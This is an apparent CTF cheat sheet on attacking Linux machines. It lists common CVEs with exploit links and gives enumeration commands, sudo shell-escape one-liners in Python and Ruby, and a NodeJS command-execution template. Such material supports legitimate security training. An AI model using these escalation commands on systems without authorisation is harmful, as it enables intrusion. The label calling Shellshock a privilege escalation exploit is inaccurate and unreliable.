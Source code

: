 # Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |
| 1 | [Shellshock - CVE-2014-6271](https://www.exploit-db.com/exploits/34900) | Privilage esculation exploit.  Can be used against CGI-Bin also. |
| 2 | [DirtyCow - CVE-2016-5195](https://dirtycow.ninja/) | Privilege escalation vulnerability in the Linux Kernel. (Linux Kernel <= 3.19.0-73.8) |
| 3 | [SambaCry - CVE-2017–7494](https://redteamzone.com/EternalRed/) | Also known as EternalRed.  This is the EthernalBlue of Linux SMB File Servers. |


### Post Exploitation - Privilage Escalation
Automated Enumeration Tools:


## Manual Privilage Escalation
*Grabbing OS Information*
```
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
```

*Checking $PATH for Write Permissions*
If you have **write permissions on any folder inside the ``PATH`` variable** you may be able to hijacking some libraries or binaries:
```
echo $PATH
```

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```

# Resources Referenced
*Special Thanks to:*
| # | Name | Resource |
| --- | --- | --- |
| 1 | Carlos Polop | https://book.hacktricks.xyz/linux-unix/privilege-escalation |
